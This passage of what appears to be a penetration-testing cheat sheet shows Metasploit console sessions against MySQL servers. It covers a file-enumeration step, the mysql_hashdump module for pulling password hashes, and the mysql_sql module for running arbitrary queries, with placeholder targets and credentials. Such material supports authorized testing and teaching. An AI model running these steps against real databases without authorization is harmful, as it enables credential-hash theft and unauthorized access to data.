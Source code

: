 ```

msf auxiliary(scanner/mysql/mysql_file_enum) > set username <username>

msf auxiliary(scanner/mysql/mysql_file_enum) > set password <password>

msf auxiliary(scanner/mysql/mysql_file_enum) > run -j
```

#### 3.2.5 - Hashdump

```
msf > use auxiliary/scanner/mysql/mysql_hashdump

msf auxiliary(scanner/mysql/mysql_hashdump) > options

Module options (auxiliary/scanner/mysql/mysql_hashdump):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   no        The password for the specified username
   RHOSTS                     yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT     3306             yes       The target port (TCP)
   THREADS   1                yes       The number of concurrent threads (max one per host)
   USERNAME                   no        The username to authenticate as

msf auxiliary(scanner/mysql/mysql_hashdump) > set rhosts <IP>

msf auxiliary(scanner/mysql/mysql_hashdump) > set threads 2

msf auxiliary(scanner/mysql/mysql_hashdump) > set username <username>

msf auxiliary(scanner/mysql/mysql_hashdump) > set password <password>

msf auxiliary(scanner/mysql/mysql_hashdump) > run
```

### 3.3 - SQL Queries

```
msf > use auxiliary/admin/mysql/mysql_sql

msf auxiliary(admin/mysql/mysql_sql) > options

Module options (auxiliary/admin/mysql/mysql_sql):

   Name      Current Setting   Required  Description
   ----      ---------------   --------  -----------
   PASSWORD                    no        The password for the specified username
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT     3306              yes       The target port (TCP)
   SQL       select version()  yes       The SQL to execute.
   USERNAME                    no        The username to authenticate as

msf auxiliary(admin/mysql/mysql_sql) > set rhosts <IP>

msf auxiliary(admin/mysql/mysql_sql) > set sql <query_commands>

msf auxiliary(admin/mysql/mysql_sql) > set username <username>

msf auxiliary(admin/mysql/mysql_sql) > set password <password>

msf auxiliary(admin/mysql/mysql_sql) > run
```